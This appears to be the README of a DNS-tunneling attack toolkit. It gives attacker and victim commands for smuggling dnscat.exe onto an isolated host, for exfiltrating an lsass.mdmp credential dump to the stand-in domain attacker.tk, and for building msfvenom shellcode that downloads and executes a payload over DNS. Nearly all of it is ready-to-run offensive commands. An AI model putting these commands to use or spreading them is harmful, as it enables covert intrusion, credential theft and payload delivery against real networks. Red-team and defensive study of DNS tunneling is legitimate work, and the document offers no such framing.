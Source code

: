 # GPL

Correct `yourzone.tk`.

### infiltration
Change loops count in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```

### exfiltration
```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```

### dns-shellcode
It can be used as dns-shellcode alternative for exploiting isolated hosts:
```
msfvenom -p windows/exec CMD=$(cat dns_download_exec.bat) -f raw -o dns_shellcode
msfvenom -p linux/x86/exec CMD=$(cat dns_download_exec.sh) -f raw -o dns_shellcode
```
